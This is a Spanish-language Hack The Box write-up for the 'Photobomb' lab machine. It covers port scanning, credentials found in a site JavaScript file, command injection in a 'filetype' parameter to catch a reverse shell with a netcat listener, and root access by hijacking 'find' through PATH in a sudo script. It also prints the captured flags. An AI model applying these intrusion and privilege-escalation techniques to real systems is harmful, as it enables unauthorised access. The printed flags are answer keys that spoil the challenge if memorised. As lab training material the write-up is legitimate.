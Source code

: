 ```yaml
---
layout: single
title: Photobomb - Hack The Box
excerpt: "Photobomb es una maquina de dificultad facil donde en el propio codigo de la pagina web hay un archivo JS donde obtenemos el nombre de usuario y su contraseña para acceder a una ruta en la cual no teniamos acceso despues abusamos del parametro filetype para obtener una reverse shell y para la escalada de privilegios vamos a usar un path traverse para obtener una shell como root"
date: 2023-02-18
classes: wide
toc: true
toc_label: "Contenido"
toc_icon: "fire"
header:
  teaser: /assets/images/htb-writeup-photobomb/new.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - FileType
  - Sudoers privilege
---
```


<p align="center">
<img src="/assets/images/htb-writeup-photobomb/iconphoto.png">
</p>

## PortScan

```bash
❯ nmap -sCV -p22,80 10.10.11.182 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-18 18:08 CST
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.28s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Photobomb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.88 seconds
```

Vemos que hay un subdominio hay que agregarlo al `/etc/hosts`

```bash
❯ whatweb http://10.10.11.182
http://10.10.11.182 [302 Found] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.182], RedirectLocation[http://photobomb.htb/], Title[302 Found], nginx[1.18.0]
http://photobomb.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.182], Script, Title[Photobomb], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

```bash
❯ cat /etc/hosts | grep photobomb
10.10.11.182 photobomb.htb
```

Funciona

```
❯ ping -c 1 photobomb.htb
PING photobomb.htb (10.10.11.182) 56(84) bytes of data.
64 bytes from photobomb.htb (10.10.11.182): icmp_seq=1 ttl=63 time=1261 ms

--- photobomb.htb ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1260.996/1260.996/1260.996/0.000 ms
```

Vamos a inspeccionar la pagina web que corre en el puerto 80

![](/assets/images/htb-writeup-photobomb/Web1.png)

Vemos que si damos click en `click here` nos muestra este panel de autenticacion

![](/assets/images/htb-writeup-photobomb/Web2.png)

No tenemos credenciales por el momento asi que podemos ver el codigo fuente

![](/assets/images/htb-writeup-photobomb/Web3.png)

Vemos que hay un archivo `.js` vamos a ver que es lo que tiene

```bash
❯ curl http://photobomb.htb/photobomb.js
```
```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Nos esta dando un enlace si lo copiamos y pegamos vemos que nos autentica automaticamente y nos muestra esta web

![](/assets/images/htb-writeup-photobomb/Web4.png)

En la parte de del boton rojo vemos que podemos descargar una foto vamos a interceptar con `burpsuite` la peticion

Al interceptar nos muestra esto

![](/assets/images/htb-writeup-photobomb/inter.png)

En la parte de `filetype` vemos que hay es donde esta definiendo la extencion del archivo que queremos asi que podemos tratar de concatenar un comando y directamente vamos a enviarnos una reverse shell 

![](/assets/images/htb-writeup-photobomb/code.png)

<https://www.revshells.com/>

Una vez puesto hay vamos a ponernos en escucha en el puerto `443` para recibir la `shell`

![](/assets/images/htb-writeup-photobomb/listo.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ahora damos a `forward` para recibir la shell

![](/assets/images/htb-writeup-photobomb/forward.png)

Funciona

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.113] from (UNKNOWN) [10.10.11.182] 45146
bash: cannot set terminal process group (715): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ 
```

Para poder hacer `ctrl+c` podemos hacer

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
ENTER
```

Podemos ver la primer flag

```bash
wizard@photobomb:~$ cat user.txt 
857825188e86ff89aee311f10870e0ec
wizard@photobomb:~$ 
```

Nada interesante

```bash
wizard@photobomb:/$ find / -perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/umount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
wizard@photobomb:/$ 
```

## Escalada de Privilegios

Si hacemos un `sudo -l` podemos ejecutar este `script` y setear variables de enterno

```bash
wizard@photobomb:/$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:/$ 
```

Vamos a ver el script y esta usuando el comando `find` que encontramos en la ultima linea lo que esta haciendo es que

```
Esta buscando todos los archivos con extensión ".jpg" en el directorio "source_images" y sus subdirectorios, y cambia el propietario y grupo de cada archivo encontrado a "root:root".
```

```bash
wizard@photobomb:/$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:/$ 
```

`Tenemos la capacidad de modificar variables como el 'path' para utilizar un comando 'find' personalizado. Además, si ejecutamos el comando 'find' con privilegios de administrador, el 'find' se ejecutará con permisos de root.`


```bash
wizard@photobomb:~$ echo bash > find
wizard@photobomb:~$ chmod +x find
```

Ahora somos root

```
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# whoami
root
root@photobomb:/home/wizard/photobomb# cd /root
root@photobomb:~# cat root.txt 
bc2ba4ec7d130530e08a60ce6b034fde
root@photobomb:~# 
```
